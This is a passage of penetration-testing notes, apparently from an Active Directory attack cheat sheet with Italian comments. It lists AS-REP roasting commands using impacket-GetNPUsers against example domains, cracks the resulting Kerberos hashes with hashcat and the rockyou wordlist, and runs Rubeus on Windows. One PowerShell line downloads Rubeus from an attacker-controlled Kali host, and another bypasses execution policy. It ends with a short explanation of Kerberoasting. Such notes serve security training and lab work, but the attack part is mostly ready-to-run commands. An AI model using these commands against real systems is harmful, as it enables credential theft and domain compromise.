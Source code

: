 ```bash
# Singolo Username
impacket-GetNPUsers -dc-ip $IP_TARGET  -request -outputfile hashes.asreproast $DOMAIN_NAME/$USER_NAME

# Username multipli
impacket-GetNPUsers -dc-ip $IP_TARGET -no-pass -usersfile users.txt $DOMAIN_NAME/ 

#Esempi

# Singolo Username
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete

# Username multipli
impacket-GetNPUsers -dc-ip 10.129.95.180 -no-pass -usersfile users.txt EGOTISTICAL-BANK.LOCAL/ 

hashcat --help | grep -i "Kerberos"

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### From Windows

Using _Rubeus.exe_ from windows:

```bash
cp /opt/Ghostpack-CompiledBinaries/Rubeus.exe .

powershell iwr -uri http://$IP_KALI:9999/windows/Ghostpack-CompiledBinaries/Rubeus.exe -Outfile Rubeus.exe

powershell -ep bypass

.\Rubeus.exe asreproast /nowrap
.\Rubeus.exe asreproast /getcredentials /show /nowrap 
```

Once you have the hash using _Rubeus_ you need to use _hashcat_ to get the password.

## Kerberoasting

If a user wants to access a resource hosted by the Service Principal Name (SPN), they must first request a ticket from the domain controller. The ticket for the service is decrypted and validated by the application server, after being encrypted using the SPN password hash

When the ticket is requested from the domain controller, no checks are made on whether the user is allowed to access the requested service. This means that if the attacker knows the target SPN, they can request a ticket for it from the domain controller.

In this case, once the ticket is received, they could try to obtain the SPN password hash and try to decrypt it, thus obtaining the password of the service account.

This attack is called _Kerberoasting_.

